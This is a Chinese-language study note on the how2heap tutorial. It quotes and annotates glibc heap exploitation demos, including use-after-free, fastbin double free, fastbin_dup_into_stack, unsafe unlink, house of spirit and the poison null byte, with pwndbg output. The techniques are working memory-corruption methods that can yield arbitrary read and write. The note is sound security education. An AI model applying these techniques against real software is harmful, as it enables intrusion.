


[how2heap](https://github.com/shellphish/how2heap)

引用的代码中只摘取了关键的部分。

## first_fit

```c
 char* a = malloc(0x512);
 char* b = malloc(0x256);
 char* c;
 strcpy(a, "this is A!");
 free(a);
 c = malloc(0x500);
 strcpy(c, "this is C!");
```

a释放后未重置为NULL，c被分配的内存就是a原本指向的内存，导致原指针a指向的数据被更改。也就是uaf的漏洞利用。

## calc_tcache_idx

这里主要介绍了tcache的index的算法逻辑。

```bash
    IDX = (CHUNKSIZE - MINSIZE + MALLOC_ALIGNMENT - 1) / MALLOC_ALIGNMENT
    On a 64 bit system the current values are:
        MINSIZE: 0x20
        MALLOC_ALIGNMENT: 0x10
    So we get the following equation:
    IDX = (CHUNKSIZE - 0x11) / 0x10

    BUT be AWARE that CHUNKSIZE is not the x in malloc(x)
    It is calculated as follows:
    IF x + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE(0x20) CHUNKSIZE = MINSIZE (0x20)
    ELSE: CHUNKSIZE = (x + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)
    => CHUNKSIZE = (x + 0x8 + 0xf) & ~0xf
```

## fastbin_dup

主要描述double free的漏洞利用。

```c
int *a = malloc(8);
int *b = malloc(8);
int *c = malloc(8);
free(a);
free(b);
free(a);
a = malloc(8);
b = malloc(8);
c = malloc(8);
```

a,b,c被分配了8字节，释放后会被放到fastbin中。释放a后：

```bash
    pwndbg> fastbins
    fastbins
    0x20: 0x602000 ◂— 0x0
```

释放b后：

```bash
    pwndbg> fastbins
    fastbins
    0x20: 0x602020 —▸ 0x602000 ◂— 0x0
```

再次释放a后：

```bash
    pwndbg> fastbins
    fastbins
    0x20: 0x602000 —▸ 0x602020 ◂— 0x602000
```

可以看到此时fastbins中有两个a的地址，之后的三次malloc就会导致a的地址被使用两次。

```bash
    1st malloc(8): 0x957010
    2nd malloc(8): 0x957030
    3rd malloc(8): 0x957010
```

## fastbin_dup_into_stack

基于上一个例子，在double free后构造了一个fake chunk。

```c
int *a = malloc(8);
int *b = malloc(8);
int *c = malloc(8);
free(a);
free(b);
free(a);
a = malloc(8);
b = malloc(8);
c = malloc(8);

// d指向了a的内存
unsigned long long *d = malloc(8);

// 第二次malloc用掉了b的内存
fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));

// 栈上的变量置为0x20，这步相当于设置了chunksize
stack_var = 0x20;

// 此时更改d的值，相当于更改了fastbin中剩下的chunk的fd, 这里被赋值为stack_var的地址减去d的大小(8)
// 所以fd+8= 20 就是 fake chunk的大小
// 这步结束之后，fastbin中就多了一个指向 &stack_var - 8 地址的fake chunk
*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

// 这步使用了 fastbin中原本a所指向的chunk
fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
// 这步就使用了fake chunk
fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
```

具体分析写在注释内。目的是利用double free构造一个fake chunk来完成任意地址的读写，这次是使用的是栈上的地址。

## fastbin_dup_consolidate

```c
void* p1 = malloc(0x40);
void* p2 = malloc(0x40);
free(p1);

void* p3 = malloc(0x400);
free(p1);
```

第一次free后：

```bash
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x602000 ◂— 0x0
```

`p3`malloc后，触发了`malloc_consolidate()`，导致fastbin中的chunk被移到对应的smallbin中。

```bash
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0

pwndbg> smallbins
smallbins
0x50: 0x602000 —▸ 0x7ffff7dd1bb8 (main_arena+152) ◂— 0x602000
```

此时`free(p1)`可以绕过fastbin中topchunk的检查，又新增一个p1所指向的chunk。导致smallbin和fastbin中同时包含两个相同的chunk，造成double free漏洞。

## unsafe_unlink

```c
uint64_t *chunk0_ptr;

int main()
{
    int malloc_size = 0x80; //we want to be big enough not to use fastbins
    int header_size = 2;

    // 1
    chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
    uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1

    // 2
    chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
    chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);

    // 3
    uint64_t *chunk1_hdr = chunk1_ptr - header_size;
    chunk1_hdr[0] = malloc_size;
    chunk1_hdr[1] &= ~1;

    // 4
    free(chunk1_ptr);

    // 5
    char victim_string[8];
    strcpy(victim_string,"Hello!~");
    chunk0_ptr[3] = (uint64_t) victim_string;
    chunk0_ptr[0] = 0x4141414142424242LL;
}
```

代码被划分成5个步骤，具体操作见下图：



第二步伪装了一个fake chunk, 其fd->bk = 0x603010, bk->fd = 0x603010， 为了绕过`fd->bk != p || bk->fd != p`的检查。

第三步更改了chunk1的header信息，使代码认为前一个块是0x80大小的空闲块，导致`free(chun1_ptr)`时，触发fake_chunk的unlink。

第四步free，最终造成chunk0_ptr指向了0x602058，此时 `&chunk0_ptr == chunk0_ptr[3]`

第五步尝试改写某块内存数据，`chunk0_ptr[3] = &victim_string`, 这时chunk0_ptr指向了victim_string 的地址；随后改写chunk0_ptr[0]，导致victim_string内容被更改。

## house_of_spirit

主要目的是伪造chunk，绕过free的检查，然后调用malloc使用这块内存。

```c
int main()
{

    // 1
    malloc(1);

    unsigned long long *a;

    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

    // 2
    fake_chunks[1] = 0x40; // this is the size

    // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
    fake_chunks[9] = 0x1234; // nextsize

    // 3
    a = &fake_chunks[2];

    free(a);

    // 4
    fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```

代码被划分为4个步骤：

1. 分配一块内存，为了初始化堆

    初始化a，以及一个10*8大小的数组fake_chunk

2. fake_chunk 被划分为两个chunk，第一个chunk的大小0x40，写在chunk头部即 `fake_chunks[1]`的地址，第二个chunk的大小是0x1234, 写在`fake_chunks[9]`，因为 0x40/8 = 8，所以向后+8。

    这里需要注意的是第二个chunk size要能绕过检查，即 2*SIZE < x < 128kb

3. a被赋值为fake_chunks[2]的地址，即fake_chunk中第一个chunk的mem指针，随后free。

    free完成后fastbin中就多了一个fake_chunk[2]的地址

4. 这步malloc就会将fastbin中的chunk取出使用

## poison_null_byte

移除了部分注释，将代码拆解成了14部分

```c
int main()
{
    uint8_t* a;
    uint8_t* b;
    uint8_t* c;
    uint8_t* b1;
    uint8_t* b2;
    uint8_t* d;
    void *barrier;

    // 1
    a = (uint8_t*) malloc(0x100);
    int real_a_size = malloc_usable_size(a);

    // 2
    b = (uint8_t*) malloc(0x200);

    fprintf(stderr, "b: %p\n", b);

    // 3
    c = (uint8_t*) malloc(0x100);
    fprintf(stderr, "c: %p\n", c);

    // 4
    barrier =  malloc(0x100);
    fprintf(stderr, "We allocate a barrier at %p, so that c is not consolidated with the top-chunk when freed.\n"
    "The barrier is not strictly necessary, but makes things less confusing\n", barrier);

    // 5
    uint64_t* b_size_ptr = (uint64_t*)(b - 8);

    // 6
    *(size_t*)(b+0x1f0) = 0x200;

    // 7
    free(b);

    // 8
    a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
    fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);

    // 9
    uint64_t* c_prev_size_ptr = ((uint64_t*)c)-2;
    fprintf(stderr, "c.prev_size is %#lx\n",*c_prev_size_ptr);

    // 10
    fprintf(stderr, "We will pass the check since chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",
    *((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
    b1 = malloc(0x100);

    // 11
    b2 = malloc(0x80);
    fprintf(stderr, "b2: %p\n",b2);

    memset(b2,'B',0x80);
    fprintf(stderr, "Current b2 content:\n%s\n",b2);

    // 12
    fprintf(stderr, "Now we free 'b1' and 'c': this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').\n");

    free(b1);
    free(c);

    // 13
    fprintf(stderr, "Finally, we allocate 'd', overlapping 'b2'.\n");
    d = malloc(0x300);
    fprintf(stderr, "d: %p\n",d);

    // 14
    fprintf(stderr, "Now 'd' and 'b2' overlap.\n");
    memset(d,'D',0x300);

    fprintf(stderr, "New b2 content:\n%s\n",b2);

    fprintf(stderr, "Thanks to https://www.contextis.com/resources/white-papers/glibc-adventures-the-forgotten-chunks"
    "for the clear explanation of this technique.\n");
}
```

1. a 分配了0x100个字节，并获取了它实际可用大小0x108。用于之后溢出 (`off-by-one`)
2. b 分配了0x200个字节，实际0x210
3. c 分配了0x100个字节，实际0x110
4. barrie 分配了0x100个字节。用于避免c被合并到topchunk中
5. b_size_ptr 被赋值为b - 8的地址，即b chunk大小字段地址
6. b+0x1f0 被赋值为0x200。是为了之后触发unlink(b)的时候绕过[chunk_size == next->prev->chunk_size](https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30)的检查。

    ```c
    #define unlink(AV, P, BK, FD) {                                            \
        if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
        malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);  \
    ```

    - 因为b的size被覆盖了一个NULL字节，chunk_size(b) == 0x200
    - `b - 0x10 + 0x200`即 `b + 0x1f0` 理论上就是next_chunk->prev_size字段，所以这里被赋值为0x200
7. `free(b)` 即b被加入unsortedBin
8. a[108] 被赋值为0，即溢出了一个NULL字节，bsize现在等于0x200
9. c_prev_size_ptr被赋值为c - 2，此时是0x210
10. b1 分配了0x100个字节，这一步触发了`unlink(b)`，此时b的前0x100个字节被分配给了b1。理论上来说c_prev_size_ptr指针的值应当会改变，但目前仍然是0x210，因为源码是根据b以及b size的偏移来更改的，所以实际被更改的是c-4的地址的值。
11. b2 分配了0x80，也是从原先的b chunk中分割出来的，全部用字符'B'填充
12. 释放b1和c。释放c的时候由于prev_size还是0x211，导致c向前合并0x210个字节。而中间的b2被无视了。。
13. d 分配了0x300字节，指向的是b chunk，大小是size(b + c) 即0x300。此时d和b2已经重叠了。
14. d被塞满了字符'D'，导致b2内容被更改

作者在代码末尾提到的paper中有张图诠释的很好：

